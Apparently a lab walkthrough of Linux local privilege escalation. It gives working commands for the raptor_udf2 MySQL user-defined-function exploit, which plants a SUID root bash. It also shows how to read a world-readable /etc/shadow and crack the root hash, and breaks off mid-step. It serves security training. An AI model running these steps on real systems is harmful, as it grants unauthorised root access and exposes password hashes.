 # LPE Techniques

## Service Exploits
The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a popular exploit that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

1. Change into the /home/user/tools/mysql-udf directory:

cd /home/user/tools/mysql-udf

2. Compile the raptor_udf2.c exploit code using the following commands:

```
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
3. Connect to the MySQL service as the root user with a blank password:

mysql -u root

4. Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

```
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

5. Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

## Weak File Permissions - Readable /etc/shadow
The /etc/shadow file contains user password hashes and is usually readable only by the root user.

1. Note that the /etc/shadow file on the VM is world-readable:

```
ls -l /etc/shadow
```

2. View the contents of the /etc/shadow file:

```
cat /etc/shadow
```

3. Each line of the file represents a user. A user's password hash (if they have one) can be found between the first and second colons (:) of each line. Save the root user's hash to a file called hash.txt on your Kali VM and use john the ripper to crack it. You may have to unzip /usr/share/wordlists/rockyou.txt.gz first and run the command using sudo depending on your version of Kali:
